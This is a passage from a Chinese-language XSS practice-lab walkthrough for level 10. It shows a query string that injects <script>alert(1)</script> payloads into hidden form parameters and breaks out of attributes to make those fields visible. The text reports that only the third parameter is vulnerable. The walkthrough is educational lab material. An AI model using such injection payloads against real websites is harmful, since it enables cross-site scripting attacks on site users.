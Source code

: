 

## 第十关

可以看到输出都被隐藏了

![image-20220604192412711](xss.assets/image-20220604192412711.png)

```javascript
keyword=<script>alert(1)</script>&t_link=<script>alert(1)</script>"type="txt"&t_history=<script>alert(1)</script>"type="txt"&t_sort=<script>alert(1)</script>"type="txt" 
```

我们把参数都试试，想办法放出来隐藏的输入

我们发现只有第三个参数的输入是有效的

![image-20220604192647553](xss.assets/image-20220604192647553.png)
